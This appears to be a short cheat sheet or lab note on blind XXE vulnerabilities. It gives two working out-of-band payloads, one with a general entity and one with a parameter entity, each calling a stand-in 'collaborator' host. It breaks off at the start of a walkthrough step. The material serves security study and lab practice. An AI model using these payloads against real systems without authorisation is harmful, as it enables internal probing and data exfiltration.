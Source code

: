 ## What is it?

Blind XML External Entity (XXE) vulnerabilities arise when an application processes XML input that includes references to an external entity, but does not return the outcome of the entity processing in the response. This makes the exploitation less direct since the attacker does not receive an immediate output from the injected payload. Blind XXE can be exploited to exfiltrate data, scan internal systems, or execute remote requests within the network that hosts the vulnerable application.

## Exploitation

Blind XXE using OOB

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://collaborator"> ]>
<foo>
  <bar>&xxe;</bar>
</foo>
```

Blind XXE using OOB with XML parameter entities

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://collaborator"> %xxe; ]>
```

Solution

`1. Check the stock of an item and send the POST request with XML to repeater